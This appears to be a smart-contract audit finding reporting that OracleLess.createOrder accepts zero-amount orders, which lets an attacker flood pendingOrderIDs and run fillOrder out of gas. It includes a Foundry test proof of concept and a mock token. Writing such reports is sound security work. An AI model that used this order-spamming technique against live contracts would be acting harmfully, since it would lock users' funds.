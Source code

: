 Mean Brown Barbel

High

# DOS from spamming zero order

## Summary

The `createOrder` function in the `OracleLess` contract allows users to create orders without any restriction on the minimum amount of tokens required. This lack of a minimum token requirement can be exploited by an attacker to create a large number of orders with negligible [even zero ]token amounts.This may lead to a DOS 

Similar issue exist in the [StopLimit](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L321) contract, where malicious users can keep creating orders and max out the pending orders to create DOS situations. An admin defined checkMinOrderSize is enforce which minimised the likelihood of spam orders but here there is no restriction

## Impact
An attacker can flood the contract with orders containing very small token amounts (even zero), significantly increasing the length of the pendingOrderIDs array and causing a DoS. For example, the fillOrder function removes the executing order from the pendingOrderIDs array, but an excessively large array length will result in running out of gas, effectively DoSing the fillOrder function

marked as High severity because the attack cost is minimal (only gas fees), and it results in users' funds being locked if their orders are sandwiched between spam orders

## POC

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L38

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/automatedTrigger/OracleLess.sol";
import "../src/automatedTrigger/IAutomation.sol";
import "../src/automatedTrigger/AutomationMaster.sol";
import "../src/automatedTrigger/StopLimit.sol";
import "../src/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
contract SherlockContestTest is Test {
    OracleLess public oracleLess;
    AutomationMaster public automationMaster;
    IPermit2 public permit2;
    StopLimit public stopLimit;
    // Test tokens
    MockERC20 public mockTokenIn;
    MockERC20 public mockTokenOut;


    // Test accounts
    address public owner;

    function setUp() public {
        // Set up accounts
        owner = address(this);

        // Deploy dependencies
        automationMaster = new AutomationMaster();
        permit2 = IPermit2(deployPermit2()); // You'll need to implement this or use a mock

        // Deploy main contract
        oracleLess = new OracleLess(automationMaster, permit2);
        stopLimit = new StopLimit(automationMaster, IBracket(address(0)), permit2);

        // Deploy test tokens
        mockTokenIn = new MockERC20("Token A", "TKNA", 18);
        mockTokenOut = new MockERC20("Token B", "TKNB", 18);
    }

    function deployPermit2() internal returns (address) {
        // You can either:
        // 1. Deploy a mock Permit2
        // 2. Fork mainnet and use the real Permit2 address
        // 3. Deploy the actual Permit2 contract
        // For this example, let's assume we're using a mock
        return address(0x1); // Replace with actual deployment
    }


 function test_createZeroAmountOrder() public {
    // Setup initial tokens for Alice
    address alice = makeAddr("alice");
    mockTokenIn.mint(alice, 1000e18);  // Give Alice some initial balance
    
    vm.startPrank(alice);
    mockTokenIn.approve(address(oracleLess), type(uint256).max);

    // Create order with zero amounts
    uint96 orderId = oracleLess.createOrder(
        IERC20(address(mockTokenIn)),
        IERC20(address(mockTokenOut)),
        0,  // amountIn = 0
        0,  // minAmountOut = 0
        alice,
        0, // feeBips
        false, // permit
        "" // permitPayload
    );

    // Verify order was created
    (
        uint96 _orderId,
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips
    ) = oracleLess.orders(orderId);

    // Assert order details
    assertEq(amountIn, 0, "amountIn should be zero");
    assertEq(minAmountOut, 0, "minAmountOut should be zero");
    assertEq(address(tokenIn), address(mockTokenIn), "tokenIn should match");
    assertEq(address(tokenOut), address(mockTokenOut), "tokenOut should match");
    assertEq(recipient, alice, "recipient should be alice");

    // Verify order is in pending orders array
    assertEq(oracleLess.pendingOrderIds(0), orderId, "Order should be in pending array");

    vm.stopPrank();
}

}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    uint8 private _decimals;

    constructor(string memory name, string memory symbol, uint8 decimalsArg) ERC20(name, symbol) {
        _decimals = decimalsArg;
    }

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }

    function decimals() public view virtual override returns (uint8) {
        return _decimals;
    }

    function burn(address from, uint256 amount) external {
        _burn(from, amount);
    }
}

```

Use MockERC20 to run the `test_createZeroAmountOrder` test which increases the number of orders by spamming with zero orders.




